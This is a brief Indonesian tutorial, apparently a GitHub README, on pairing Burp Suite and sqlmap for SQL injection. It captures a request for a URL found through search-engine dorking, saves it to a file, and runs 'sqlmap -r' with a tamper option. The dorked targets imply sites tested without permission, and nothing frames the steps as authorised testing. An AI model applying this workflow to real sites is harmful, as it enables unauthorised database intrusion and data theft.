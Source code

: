 # cara memakai sqlmap + burp suite
1.masukan url hasil droking pada burp suit dan jalankan intercept on
2.paste pada browser (setelah itu copy hasil dari intercept)
3.buka terminal lalu paste echo " hasil dari intercept " > filename.txt
4.jalakan sqlmap (sqlmap -r filename.txt) bisa custom --tamper=space2commet --level 1 --risk 1
